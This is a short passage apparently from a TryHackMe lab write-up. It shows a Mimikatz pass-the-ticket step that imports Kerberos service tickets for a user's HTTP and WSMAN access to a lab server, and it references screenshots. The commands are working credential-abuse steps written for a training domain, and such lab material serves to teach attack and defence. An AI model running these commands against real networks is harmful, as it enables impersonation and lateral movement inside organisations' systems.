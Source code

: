 		![task3-tgs](./images/task3-tgs.png)

	* Use Mimikatz to import TGS fot HTTP service and WSMAN service
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe

		privilege::debug
		kerberos::ptt TGS_t1_bruce.powell@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
		kerberos::ptt TGS_t1_bruce.powell@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
		```

		![task3-import](./images/task3-import.png)
